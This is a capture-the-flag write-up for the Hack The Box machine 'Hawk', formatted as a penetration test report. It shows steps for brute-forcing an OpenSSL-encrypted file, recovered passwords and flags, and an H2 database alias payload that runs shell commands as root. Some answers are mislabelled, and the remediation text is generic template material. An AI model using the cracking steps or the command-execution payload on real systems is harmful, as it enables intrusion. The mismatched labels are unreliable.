# Security Assessment Report: Hawk


**Technical Security Assessment & Penetration Testing Report** conducted on the target environment **Hawk** hosted on **Hack The Box**, executed in accordance with **PTES and NIST SP 800-115** and **PTES (Penetration Testing Execution Standard)** methodologies.

---

## 📑 1. Executive Summary

* **Assessment Objective:** Identify, validate, and exploit security vulnerabilities across the target host to assess operational impact on confidentiality, integrity, and system availability.
* **Risk Rating:** `CRITICAL` (Unauthenticated remote exploit vector leading to complete host compromise and administrative takeover).
* **Initial Access Vector:** Public-Facing Network Service Exploitation
* **Privilege Escalation Vector:** Local Privilege Escalation
* **Engagement Outcome:** Complete Host Compromise (`User Proof` and `Root / SYSTEM Proof` successfully retrieved and verified).

### Target Technical Specifications

| Parameter | Technical Detail |
| :--- | :--- |
| **Target Host** | Hawk |
| **Platform** | Hack The Box |
| **Operating System** | Linux |
| **Difficulty Rating** | Medium |
| **Associated CVE(s)** | N/A |
| **Initial Foothold Vector** | Public-Facing Network Service Exploitation |
| **Privilege Escalation Vector** | Local Privilege Escalation |
| **Lead Penetration Tester** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Attack Path & Kill Chain Workflow

```
[ Phase 1: Reconnaissance & Port Scanning ]
         │─── TCP SYN scanning and service fingerprinting (Nmap)
         └─── Attack surface mapping and daemon enumeration
         │
         ▼
[ Phase 2: Vulnerability Analysis & Service Enumeration ]
         │─── Web directory fuzzing, parameter discovery, and banner analysis
         └─── CVE identification and credential harvesting
         │
         ▼
[ Phase 3: Exploitation & Initial Foothold ]
         │─── Exploit delivery: Public-Facing Network Service Exploitation
         └─── Establishing an interactive reverse shell with unprivileged user context
         │
         ▼
[ Phase 4: Local Privilege Escalation ]
         │─── Internal audit: Local Privilege Escalation
         └─── Elevation to superuser / administrator privileges (root / SYSTEM)
         │
         ▼
[ Phase 5: Evidence & Flag Retrieval ]
         └─── Capture and cryptographic verification of user.txt and root.txt
```

---

## 🔬 3. Technical Walkthrough & Step-by-Step Proof of Concept

> **Assessment Query / Target Milestone:** How many open TCP ports are listening on Hawk?

* **Observed Evidence / Output:** 6



* **Technical Finding (Phase 1):** Initial network reconnaissance and service detection exposing active daemons and communication endpoints.


> **Assessment Query / Target Milestone:** What content management system is running on TCP port 80?

* **Observed Evidence / Output:** drupal



* **Technical Finding (Phase 2):** Attack surface enumeration, directory discovery, or parameter analysis identifying potential vulnerability vectors.



* **Assessment Step 03:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the name of the encrypted file available on the FTP server?

* **Observed Evidence / Output:** .drupal.txt.enc



* **Assessment Step 04:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What program is responsible for encrypting `.drupal.txt.enc`?

* **Observed Evidence / Output:** openssl



* **Assessment Step 05:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What user is running the Drupal blog on Hawk?

* **Observed Evidence / Output:** PencilKeyboardScanner123



* **Assessment Step 06:** Command execution output, exploit delivery proof, or auxiliary evidence.


```jsx
for i in $(seq 0 8 176); do                                                          
python3 -c "import sys; sys.stdout.buffer.write(b'A'*$i)" > "$i"
done
```

```jsx
cat > [encrypt.sh](http://encrypt.sh/) <<'BASH'                                                             
#!/usr/bin/env bash
set -euo pipefail
PASS='PleaseSubscribe'
```

```jsx
while IFS= read -r cipher; do
[[ -z "$cipher" || "$cipher" =~ ^# ]] && continue
for length in $(ls -1 | grep -E '^[0-9]+$' | sort -n); do
out="${length}.${cipher}.enc"
echo "=> openssl enc -$cipher -e -in $length -out $out -k *****"

if ! openssl enc -"$cipher" -e -in "$length" -out "$out" -k "$PASS" 2>/dev/null; then
echo "[!] skipping cipher $cipher (not supported?)"
rm -f "$out"
fi
done
done < cipher.lst
BASH
```

```jsx
cat > cipher.lst <<'EOF'                                                            
aes-256-cbc
aes-192-cbc
aes-128-cbc
aes-256-ofb
aes-128-ofb
rc4
aria-128-cbc
des
EOF
```

```jsx
wc -c * | grep '176 ‘
```

```jsx
sudo apt update                                                                        
sudo apt install -y bruteforce-salted-openssl
```

```jsx
base64 -d .drupal.txt.enc > drupal.openssl 
```

```jsx
bruteforce-salted-openssl -t 8 -f /usr/share/wordlists/rockyou.txt -c aes-256-cbc -d md5 drupal.openssl
```

```jsx
bruteforce-salted-openssl -t 8 -f /usr/share/wordlists/rockyou.txt -c aes-256-cbc -d sha256 drupal.openssl
```

```jsx
openssl enc -d -aes-256-cbc -md sha256 -salt -in drupal.openssl -out drupal.txt -k 'friends'

```


> **Assessment Query / Target Milestone:** What user is running the Drupal blog on Hawk?

* **Observed Evidence / Output:** www-data



* **Assessment Step 07:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 08:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 09:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the drupal user's password to connect to the MySQL database?

* **Observed Evidence / Output:** drupal4hawk



* **Assessment Step 10:** Command execution output, exploit delivery proof, or auxiliary evidence.


```jsx
www-data@hawk:/var/www/html/sites/default$ cat settings.php

```

**Submit the flag located in the daniel user's home directory.**

* **Observed Evidence / Output:** a5fd7a6995ba44600da05a092e788b3c



* **Assessment Step 11:** Command execution output, exploit delivery proof, or auxiliary evidence.


**On what TCP port is the H2 database listening?**

* **Observed Evidence / Output:** 8082



* **Assessment Step 12:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 13:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What user is the H2 database running as?

* **Observed Evidence / Output:** root

**Submit the flag located in the root user's home directory.**

* **Observed Evidence / Output:** a97fc889aa3e581c5a1b05dab89d802a

```jsx
DROP ALIAS IF EXISTS SHELLEXEC;
CREATE ALIAS SHELLEXEC AS $$
String shellexec(String cmd) throws java.io.IOException, InterruptedException {
String[] c = {"/bin/sh","-c", cmd};
Process p = Runtime.getRuntime().exec(c);
java.io.InputStream both =
new java.io.SequenceInputStream(p.getInputStream(), p.getErrorStream());
java.util.Scanner s = new java.util.Scanner(both);
s.useDelimiter("\\A");
String out = s.hasNext() ? s.next() : "";
p.waitFor();
return out;
}
$$;
```



* **Privilege Escalation PoC (Phase 4):** Exploitation of misconfiguration, SUID binary, or vulnerability leading to elevated privileges.



* **Evidence Verification (Phase 5):** Final administrative validation confirming root/SYSTEM access and retrieval of system flags.

---

## 🛡️ 4. Strategic Remediation & Hardening Roadmap

### 🛡️ Prioritized Findings, Attack Path Preconditions & Repeatable Verification

| Finding & Precondition | Attack Path Impact | Remediation Action | Repeatable Verification Command |
| :--- | :--- | :--- | :--- |
| **P1: Public-Facing Network Service Exploitation**<br>*Precondition:* Public network service reachable without rate-limiting, authentication barriers, or egress filtering. | **High / Critical (Foothold Chokepoint)**<br>Altered the primary attack path by exposing unauthenticated remote access to internal context. | Audit listening sockets via `ss -tulpn`, apply UFW / iptables rules, and patch daemon binaries. | `nmap -p- --open -T4 $TARGET_IP` |
| **P1: Local Privilege Escalation**<br>*Precondition:* Missing kernel hotfixes, legacy software versions, or world-readable credential configuration files. | **Critical (Full Compromise)**<br>Enabled complete elevation of privileges from unprivileged user to superuser / administrator. | Apply OS kernel security updates and implement centralized secret management. | `uname -r && apt-get -s upgrade | grep -i security` |

#### 🔬 Repeatable Verification Procedures (Defensive Validation)

**1. Verification for Ingress / Foothold Mitigation (Public-Facing Network Service Exploitation):**
* **Validation Goal:** Confirm the remote exploitation path is definitively closed and non-exploitable.
* **Deterministic Test Command:**
```bash
nmap -p- --open -T4 $TARGET_IP
```
* **Expected Output upon Successful Remediation:**
```text
Only strictly required operational ports exposed (e.g., 443/TCP)
```

**2. Verification for Local Privilege Escalation Mitigation (Local Privilege Escalation):**
* **Validation Goal:** Enforce strict least-privilege boundary preventing local execution context from elevating to administrative/root privileges.
* **Deterministic Test Command:**
```bash
uname -r && apt-get -s upgrade | grep -i security
```
* **Expected Output upon Successful Remediation:**
```text
0 upgraded, 0 newly installed, 0 to remove (Fully patched kernel and packages)
```

### Immediate Tactical Actions (P1)
1. **Patch Management & Software Upgrades:** Immediately apply official security updates and patches for all vulnerable software components and exposed services (N/A).
2. **Access Control & SUID Audit:** Remove unnecessary SUID/SGID bits, audit `/etc/sudoers` rules, and enforce strict Access Control Lists (ACLs) on sensitive files and administrative scripts.
3. **Attack Surface Reduction:** Configure host-based firewalls (e.g., `iptables` / `ufw` / Windows Firewall) to restrict exposure of management services and internal ports to trusted administrative subnets only.

### Architectural & Defensive Hardening (P2)
1. **Principle of Least Privilege (PoLP):** Ensure public-facing daemons run under dedicated low-privileged service accounts configured with non-interactive login shells (`/sbin/nologin`).
2. **Network Microsegmentation:** Isolate production servers and database tiers within dedicated VLANs, enforcing stateful inspection and ingress/egress filtering on east-west traffic.
3. **Endpoint Detection & Telemetry (EDR):** Implement centralized logging and behavior-based detection rules to capture anomalous process spawning, unauthorized script interpreter execution, and suspicious outbound socket connections.

---

## 📊 5. MITRE ATT&CK Enterprise Framework Mapping

| Tactic | Technique ID | Technique Name | Technical Application in Engagement |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Active Scanning: Vulnerability Scanning | Automated and manual port scanning, banner grabbing, and service discovery |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Exploitation of exposed network/web service (Public-Facing Network Service Exploitation) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Interactive reverse shell execution and remote command dispatch |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Control Mechanism / Exploitation | Local elevation to administrative/root privileges (Local Privilege Escalation) |

---

© 2026 **araizcorp** — Technical documentation and security assessment portfolio developed for enterprise penetration testing enablement, vulnerability research, and defensive hardening.
